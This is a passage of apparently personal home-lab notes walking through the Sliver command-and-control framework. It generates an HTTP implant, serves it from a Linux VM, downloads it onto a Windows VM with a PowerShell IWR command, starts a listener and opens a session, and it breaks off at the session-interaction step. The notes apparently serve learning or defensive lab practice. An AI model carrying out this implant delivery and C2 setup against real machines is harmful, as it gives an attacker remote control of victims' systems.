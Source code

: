Now we can generate C2 session payload with the following command: 

```
generate --http [LinuxVM IP] --save /opt/sliver 
```

![[Pasted image 20240816135406.png]]

And confirm the new implants configuration 
```
implants
```

![[Pasted image 20240816135501.png]]

Now, as we've got our payload that we're going to drop into our Windows VM - we can do that. 

To upload our payload - we'll set up an http server on port 80 with the following command: 

```
python3 -m http.server 80
```

Now we can download the file from our VM with the following command in PowerShell: 

```
IWR -Uri http://192.168.88.133/TALL_EYEBROWS.exe -Outfile C:\Users\User\Downloads\TALL_EYEBROWS.exe
```

![[Pasted image 20240816140306.png]]

![[Pasted image 20240816140316.png]]


## Starting Command & Control session

To launch our C2 we start sliver server again:
```
sliver-server
```
And start http listener: 
```
http
```
![[Pasted image 20240816140832.png]]

Now back to our Windows VM administrative Powershell to execute the payload: 

![[Pasted image 20240816141004.png]]

![[Pasted image 20240816141016.png]]

To verify the connection we can use command `sessions` and note session ID as well: 
![[Pasted image 20240816141053.png]]

To interact with payload we can use `use [sesion id]` command: 
